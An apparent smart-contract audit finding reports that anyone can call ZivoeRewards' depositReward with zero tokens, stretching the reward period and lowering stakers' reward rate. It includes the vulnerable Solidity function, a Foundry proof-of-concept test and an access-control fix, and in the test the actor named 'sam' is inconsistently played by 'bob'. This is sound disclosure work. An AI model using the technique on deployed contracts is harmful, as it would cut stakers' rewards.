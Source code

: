 Quiet Daffodil Tardigrade

high

# `rewardRate` in `ZivoeRewards` can be manipulated

## Summary
`rewardRate` in `ZivoeRewards` can be manipulated as anyone can call `ZivoeRewards::depositReward()` with 0(Zero) amount

## Vulnerability Detail
Rewards in `ZivoeRewards`(stSTT/stJTT/stZVE) contract is deposited through `ZivoeRewards::depositReward()`. In `depositReward()`,  `rewardRate` for that rewardToken is calculated as well as updated based on `periodFinish` (When current rewards will finish vesting) & this `periodFinish` is also `updated` to block.timestamp + `rewardsDuration`
```solidity
   function depositReward(address _rewardsToken, uint256 reward) external updateReward(address(0)) nonReentrant {
        IERC20(_rewardsToken).safeTransferFrom(_msgSender(), address(this), reward);

        // Update vesting accounting for reward (if existing rewards being distributed, increase proportionally).
        if (block.timestamp >= rewardData[_rewardsToken].periodFinish) {
            rewardData[_rewardsToken].rewardRate = reward.div(rewardData[_rewardsToken].rewardsDuration);
        } else {
       @>  uint256 remaining = rewardData[_rewardsToken].periodFinish.sub(block.timestamp);
            uint256 leftover = remaining.mul(rewardData[_rewardsToken].rewardRate);
       @>  rewardData[_rewardsToken].rewardRate = reward.add(leftover).div(rewardData[_rewardsToken].rewardsDuration);
        }

        rewardData[_rewardsToken].lastUpdateTime = block.timestamp;
       @> rewardData[_rewardsToken].periodFinish = block.timestamp.add(rewardData[_rewardsToken].rewardsDuration);
        emit RewardDeposited(_rewardsToken, reward, _msgSender());
    }
```
Now, the problem is `depositReward()` can be called by `anyone` with 0(zero) amount, which will increase the `periodFinish` and due to which `rewardRate` will decrease as rewardRate is calculated and set based on `periodFinish`. Because of `low` rewardRate, stakers will be able to `withdraw` less reward than expected.

//Here is coded POC
```solidity
 function test_ZivoeRewards_rewardRateCanBeManipulated() public {
      //Suppose bob is YDL(for simplicity) & its depositing rewards
        uint realDeposit = 10000 ether;
        mint("DAI", address(bob), realDeposit);
        assert(bob.try_approveToken(DAI, address(stZVE), realDeposit));
        assert(bob.try_depositReward(address(stZVE), DAI, realDeposit));

        (   ,
            uint256 oldPeriodFinish,
            uint256 oldRewardRate,
            ,
        ) = stZVE.rewardData(DAI);

       //Increasing timestamp by 1 days to show the effect, you can increase
       //to any timestamp till vesting 
        vm.warp(block.timestamp + 1 days);

        // suppose sam is malicious actor, calling depositReward with
        //0 amount to increase periodFinish
        uint256 deposit = 0;
        mint("DAI", address(sam), deposit);
        assert(bob.try_approveToken(DAI, address(stZVE), deposit));
        assert(bob.try_depositReward(address(stZVE), DAI, deposit));

         // Post-state.
        (   ,
            uint256 newPeriodFinish,
            uint256 newRewardRate,
            ,
        ) = stZVE.rewardData(DAI);
        assertLt(newRewardRate, oldRewardRate);
    }
```
 
## Impact
Stakers will be able to withdraw less than expected as rewardRate is decreased

## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L228C3-L243C6

## Tool used
Manual Review

## Recommendation
Ensure proper `access control` as only YDL or whitelisted Lockers can call depositReward